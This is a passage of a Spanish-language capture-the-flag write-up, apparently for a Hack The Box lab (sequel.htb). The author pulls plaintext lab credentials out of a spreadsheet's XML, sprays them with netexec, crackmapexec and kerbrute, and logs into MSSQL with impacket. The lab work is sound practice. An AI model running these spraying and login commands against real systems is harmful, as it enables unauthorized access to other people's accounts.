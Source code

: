 y dentro del directorio /xl de accounts encontre:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst><?xml version="1.0" encoding="UTF-8" standalone="yes"?>

```
mas cuentas de usuarios del sistema y contraseñas :D

tambien se mencionan en /xl/worksheets/sheet1.xml

dentro del otro comprimido no he visto mención de los usuarios

con esto, voy a crear una lista y enumerar mas usuarios en el sistema:

```txt
sa@sequel.htb                   'MSSQLP@ssw0rd!'
kevin@sequel.htb                Md9Wlq1E5bZnVDVo
oscar@sequel.htb                86LxLBMgEWaKUnBG
angela@sequel.htb               0fwz7Q4mSpurIt99

```

probé con varias herramientas para verificar cuales eran usuarios validos en el sistema
netexec:
```
netexec smb sequel.htb -u usersn.txt -p pass.txt
```

crackmapexec:
```
crackmapexec mssql sequel.htb -u usersn.txt -p pass.txt
```

kerbrute:
```
./kerbrute userenum --dc 10.129.2.36 -d sequel.htb usersn.txt
```


las 3 coinciden en que las credenciales validas son:
***sequel.htb\oscar:86LxLBMgEWaKUnBG

después de probar varios protocolos con impacket, tenemos conexión con mssql:
```bash
impacket-mssqlclient sequel.htb/oscar:86LxLBMgEWaKUnBG@10.129.2.36 -windows-auth
```
